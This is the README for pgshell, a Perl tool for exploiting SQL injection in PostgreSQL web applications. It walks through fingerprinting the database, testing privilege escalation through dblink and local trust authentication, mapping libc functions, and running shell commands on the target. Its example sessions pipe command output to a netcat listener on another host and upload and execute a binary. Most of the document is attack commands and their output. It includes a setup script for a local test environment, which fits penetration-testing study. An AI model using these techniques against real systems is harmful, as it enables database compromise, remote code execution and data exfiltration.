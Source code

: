 # pgshell
A tool for exploiting SQL injections in PostgreSQL databases.

## Introduction

The pgshell Perl script exploits configuration weaknesses in the PostgreSQL database management system as they were discribed in the corresponding paper (Having Fun With PostgreSQL). It not only allows to gather target system and user information but also privilege escalation, executing of shell commands and uploading of binary files.

The general usage of pgshell could be outlined in three steps:

```
    gathering information
    creating the system and the upload framework
    launching a shell and uploading files
```

The minimal parameters are the target host and a request file. The request file contains the HTTP request to send to the server plus a tag <<INJECTION>> that indicates, where to perform the SQL injection. A simple request file can look like this:

```
GET /index.php?id=1;<<INJECTION>> HTTP/1.0
```
If not stated otherwise, every execution of pgshell reads from and writes to a session file. This way, informations won't get lost and the process can be resumed at any time. Additional there are certain settings that can be made in order to work properly against the target system. If you wish to launch a shell or to upload files you need to know the path to the libc. Furthermore, for uploading files, pgshell creates a function which uses the libc function open. Two parameters are needed in order to successfully open a file. These values are the OR'ed (O_CREAT | O_APPEND | O_RDWR) and S_IRWXU. Find out, what values those will be on your target system and put everything in an initial session file:

```
=target.libc=/lib/libc.so.6
=target.flag.open=522
=target.flag.mode=448
```

### Setting up a test environment

pgshell comes with a shell script that will set up a test environment. That includes a database and a PHP script. Before you run that script, please make some changes in the script itself. First of all. specify the path of your PostgreSQL binaries. The TEMP_DIR variable determines the path into where the PHP script and a request file will be put. You need a PostgreSQL administrator user to create the test database. Put the username in DB_USER. The other variable settings are quite self explaining. After all, your script settings should look somehow like this:

```
BIN_DIR="/opt/postgresql/bin/"
TEMP_DIR="/tmp/test-env/"
DB_USER="pgsql"
TEST_USER="someone"
TEST_DBNAME="testdb"
TEST_TABLE="testtab"
```

Now, run it

```
$ ./test-env.sh
* generating test environment
  - creating temporary directory /tmp/test-env ... done
  - creating non-superuser someone ... done
  - creating database testdb ... done
  - creating table testtab ... done
  - creating php script ... done
  - creating HTTP request file ... done
* finished
	               
Please make sure, that 
   ... you have set up your web server to support php with PostgreSQL support
   ... you place /tmp/test-env//test-env.php in your web document root directory
   ... you disable magic quotes in your php.ini
```

When it finished without errors, move the test-env.php in /tmp/test-env/ into your web root. And then, depending where you moved it, edit the HTTP request file, so that it will be suite your requirements. The file will be /tmp/test-env/http-request:

```
$ cat /tmp/test-env/http-req
GET /test-env.php?id=1;<> HTTP/1.0 
```
 
Almost there. Just give it a try:
It should return a similar SQL syntax error message similar to that one below (Our target system is 192.168.1.158):

```
$ nc 192.168.1.158 80
GET /test-env.php?id=1;<<INJECTION>> HTTP/1.0

HTTP/1.1 200 OK
Server: Apache (FreeBSD)
Content-Length: 386
Connection: close
Content-Type: text/html


<html>
  <head>
    <title>pg_shell test page</title>
  </head>

  <br />

<b>Warning</b>:  pg_query() [<a href='function.pg-query'>function.pg-query</a>]: Query failed: ERROR:  unterminated quoted string at or near "'" at character 39 in <b>/usr/local/www/apache22/data/test-env.php</b> on line <b>16</b><br />
```

That's it. Now, have fun with PostgreSQL

## Example Usage

### Information Gathering

This is the first phase, where we gather as many information as possible. That inherits user names, superuser names, database and system information. Certain information, like superuser names, are basicly needed for further steps. If this is prior PostgreSQL 8.2, we won't have the luxury of a pg_sleep() function. But if PL/pgSQL language is available, pgshell will create it's own. Otherwise, we have to fallback on using the md5()-workaround, what will result in heavy CPU usage on the target system. In that case, it won't make sense to run multithreaded as several threads might influence each other's delay time. That's why pgshell will trottle back to a single thread. However, let's assume, we can create PL/pgSQL functions:

```
./pgshell -v -gIvid -gSle -gUsa 192.168.1.158 request
pg_shell - The PostgreSQL Shell; Version 1.0
(c) 2007 Nico Leidecker 
http://www.portcullis.co.uk - http://www.leidecker.info
* target is '192.168.1.158:80' with request from 'request'
* read session file
! no session file found: No such file or directory
* running with 10 threads
* PostgreSQL Settings:
    listen addresses: localhost
    port: 5432
    password encryption: no
* General Informations: 
    version: PostgreSQL 8.1.8 on i386-unknown-freebsd6.2, compiled by GCC gcc (GCC) 3.4.6 [FreeBSD] 20060305
    who am I? someone
    where am I? testdb
* User Informations:
    users: 2
pgsql
someone
    super users: 1
pgsql
* write session file
```

### Check Your Privileges

The current user someone is not a superuser. That's not surprising. But it might be interesting, if we had other privileges:

```
$ ./pgshell -gP someone 192.168.1.158 request
* User Privileges for someone:
   is a super user ... no
   can create databases ... no
   can update system catalogs... no
```

### Check Privilege Escalation Capabilities

So, we are a very low privileged user. But there might be a chance to escalade our privileges by exploiting a configuration weakness. That is the local trust authentication that is enabled by default, if you compiled PostgreSQL from the sources. The first we do, is to test the target system on it's escalation capability:

```
$ ./pgshell -pT 192.168.1.158 request
* Testing privilege escalation capabilities:
    checking functions:
        dblink() ... found
        dblink_exec() ... found
        dblink_connect() ... found
    local trust authentication: possible
* congratulations, the target system is capable for privilege escalation
```

That looks good. We now are able to do anything we want, as we'd be able to gain superuser privileges.

### Create Shell and Upload Framework

Before running shell commands or uploading files, we need to map the necessary functions. Just execute the following command ...

```
$ ./pgshell -cSU 192.168.1.158 request
mapping system function ... testing ... done
mapping open function ... done
mapping close function ... done
mapping write function ... done
preparing writing routine ... done
```

... and enjoy the following :)

### Run Shell Commands

Launching a shell and running commands can be done with the -aS flag. Please consider, that pgshell won't return any output, but will determine, whether the system() function call will return with 0 or not. You still can get the output via piping it to a reverse connection for instance:

```
$ sudo nc -lp 4141 &
[1] 2650
$ ./pgshell -aS 192.168.1.158 request
(quit with ^C)
> id | nc 192.168.1.169 4141
uid=70(pgsql) gid=70(pgsql) groups=70(pgsql)
> ^C
[1]+  Done                    sudo nc -lp 4141
```

### Upload Files

pgshell is able to upload (binary) files by using Base64 encoding. The syntax for uploading a simple file is:

```
./pgshell -aU source-file destination-file target request-file
```

In the following, we compile a simple C program, upload and execute it and pipe the output back to us.

```
$ cat <<EOF > upload.c
#include <stdio.h>
int main()
{
	printf("this binary file has been uploaded!\n");
	return 0;
}
EOF
$ gcc -o upload upload.c
$ ./pgshell -aU upload /tmp/upload 192.168.1.158 request
* uploading upload to /tmp/upload ... 13344/13344 ... completed
$ ./pgshell -aS 192.168.1.158 request
(quit with ^C)
> /tmp/upload | nc 192.168.1.169 4141
this binary file has been uploaded!
> ^C      
[1]+  Done                    nc -lp 4141
```

